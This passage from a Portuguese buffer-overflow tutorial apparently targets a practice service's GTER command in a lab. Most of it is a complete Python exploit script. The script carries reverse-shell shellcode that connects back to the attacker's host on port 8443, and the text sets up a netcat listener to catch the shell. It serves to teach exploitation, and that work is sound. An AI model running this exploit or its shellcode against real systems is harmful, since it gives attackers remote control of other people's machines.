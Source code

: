 ## ATUALIZANDO E ORGANIZANDO NOSSO EXPLOIT

Com o shellcode em mãos, vamos atualizar nosso script.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.26"
porta = 9999

# payload a ser enviado
offset = 147

shellcode = b"\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x40\x71\xe6\x76\xff\xd3\x96\x68\xc0\xa8\x01\x0c\x66\x68\x20\xfb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x10\x53\x56\xbb\x10\x57\xe6\x76\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x31\xd2\x56\x56\x56\x52\x52\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53\x51\x53\xbb\x90\x2d\x2b\x75\xff\xd3"

payload = b"GTER /.:/" # funcao inicial
payload += shellcode
payload += b"A" * (offset - len(shellcode))
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"\xe9\x64\xff\xff\xff" # salta para o primeiro buffer
payload += b"C" * (309 - 147 - 4 - 5) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado! Cheque o netcat.")
```

Script pronto, vamos setar um netcat na porta 8443 que configuramos no Assembly e testar nosso exploit.

![Enumaração do comando.](/img/std/winbof/winbof-42.png)
